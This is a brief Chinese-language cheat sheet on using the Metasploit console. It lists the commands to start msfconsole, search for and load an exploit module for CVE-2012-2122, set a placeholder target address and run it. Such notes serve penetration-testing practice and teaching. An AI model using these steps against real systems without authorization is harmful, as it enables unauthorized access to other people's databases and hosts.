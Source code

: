 # Msfconsole 实战语句

## 利用过程

 1.  启动
 
```
   msfconsole
```

2.  搜索 CVE

```
	search cve:CVE-2012-2122

    use 0

    show options

    set rhost 10.10.10.10

    run
```
